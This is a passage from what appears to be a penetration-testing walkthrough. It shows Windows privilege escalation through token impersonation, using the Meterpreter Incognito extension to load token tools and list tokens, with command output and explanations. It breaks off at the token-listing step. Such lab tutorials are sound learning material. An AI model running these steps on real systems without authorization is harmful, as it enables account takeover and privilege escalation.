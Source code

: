 #### **🎯 What This Means:**
- **Current User:** user1 (limited privileges)
- **Computer Name:** WORKSTATION
- **Access Level:** Standard user (not administrator)
- **Next Step:** We need to find ways to get higher privileges

---

### **Step 2: Load Token Impersonation Tools**

**What We're Doing:** Loading the Incognito extension to steal user tokens

#### **Commands Used:**
```bash
meterpreter > load incognito
meterpreter > help incognito
```

#### **What Happened:**
```bash
meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > help incognito

Incognito Commands
==================

Command              Description
-------              -----------
add_group_user       Attempt to add a user to a global group with all tokens
add_localgroup_user  Attempt to add a user to a local group with all tokens
add_user             Attempt to add a user with all tokens
impersonate_token    Impersonate specified token
list_tokens          List tokens available under current user context
rev2self             Revert back to original user context
```

#### **🔍 What This Tells Us:**
- **Incognito loaded successfully** - Token tools are ready
- **Key Commands Available:** list_tokens, impersonate_token  
- **Multiple Options:** Can steal user or group tokens
- **Safety Feature:** rev2self lets us go back if needed

---

### **Step 3: Find Available Tokens**

**What We're Doing:** Looking for tokens from other users logged into the system

#### **Commands Used:**
```bash
meterpreter > list_tokens -u
```
